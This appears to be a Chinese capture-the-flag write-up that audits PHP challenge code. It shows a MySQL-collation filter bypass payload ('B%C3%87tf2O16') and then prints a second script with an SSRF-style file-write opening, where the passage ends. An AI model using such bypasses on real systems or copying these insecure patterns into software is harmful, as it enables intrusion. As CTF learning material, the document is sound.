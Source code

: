 查看一下页面的源代码：  
看到了完整的php代码：

```
<?php
$con = mysql_connect('localhost','root','');
mysql_query("set names utf8");
mysql_select_db("ctf");
if($_SERVER["REMOTE_ADDR"]=='8.8.8.8'){
    $name = addslashes($_GET['usern3me']);
}
else{
    if(stripos($_GET['usern3me'],'Bctf2O16')!==false){
        $name = 'FUCK';
    }
    else{
        $name = addslashes($_GET['usern3me']);
    }
}
echo 'hello '.$name;
$sql = "select * from admin where name='$name'";
$result = mysql_query($sql);
$num = mysql_num_rows($result);
if($num>0){
    echo '<br>next ***.php';
}
?>
```

代码审计可以发现，其实就是要查询Bctf2O16，但是又不能出现这个字符串，根据提示想到mysql字符集  
于是构造出payload:  
`http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=B%C3%87tf2O16`

页面返回  
hello BÇtf2O16 next c3368f5eb5f8367fd548b228bee69ef2.php

那么继续查看这个文件  
<http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/c3368f5eb5f8367fd548b228bee69ef2.php>

页面返回了一个php代码：

```
<?php
if(isset($_GET['path']) && isset($_GET['filename'])){
    $path = $_GET['path'];
    $name = "upload/".$_GET['filename'];
}
else{
    show_source(__FILE__);
    exit();
}
if(strpos($name,'..') > -1){
    echo 'WTF';
    exit();
}

if(strpos($path,'http://127.0.0.1/') === 0){
    file_put_contents($name,file_get_contents($path));
}
else{
    echo 'path error';
}
?>
```
